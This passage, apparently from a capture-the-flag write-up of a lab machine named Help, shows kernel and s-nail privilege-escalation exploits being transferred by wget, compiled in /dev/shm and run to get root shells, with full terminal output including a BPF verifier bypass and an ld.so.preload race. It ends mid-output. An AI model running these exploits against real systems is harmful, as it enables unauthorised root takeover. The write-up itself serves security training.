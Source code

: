 I’ll download all three exploits, and serve them with `python3 -m http.server 80` to move them to Help with `wget`.

I’m working out of `/dev/shm`. I’ll compile and run the first, and get a root shell:

```

help@help:/dev/shm$ gcc -o a 44298.c 
help@help:/dev/shm$ ./a
task_struct = ffff880003596200
uidptr = ffff880003cfcc04
spawning root shell
root@help:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)

```

The second works as well:

```

help@help:/dev/shm$ gcc -o a 45010.c 
help@help:/dev/shm$ ./a
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800050ecb00
[*] Leaking sock struct from ffff88003b3e9000
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88000898bbc0
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88000898bbc0
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)

```

The third does the compilation in the shell script:

```

help@help:/dev/shm$ ./a.sh                                  
[~] Found privsep: /usr/lib/s-nail/s-nail-privsep                                                                             
[.] Compiling /var/tmp/.snail.so.c ...                      
[.] Compiling /var/tmp/.sh.c ...                            
[.] Compiling /var/tmp/.privget.c ...                               
[.] Adding /var/tmp/.snail.so to /etc/ld.so.preload ... 
[=] s-nail-privsep local root by @wapiflapi               
[.] Started flood in /etc/ld.so.preload                     
[.] Started race with /usr/lib/s-nail/s-nail-privsep     
[.] This could take a while...                            
[.] Race #1 of 1000 ...                               
This is a helper program of "s-nail" (in /usr/bin).     
  It is capable of gaining more privileges than "s-nail"              
  and will be used to create lock files.                  
  It's sole purpose is outsourcing of high privileges into                                                                    
```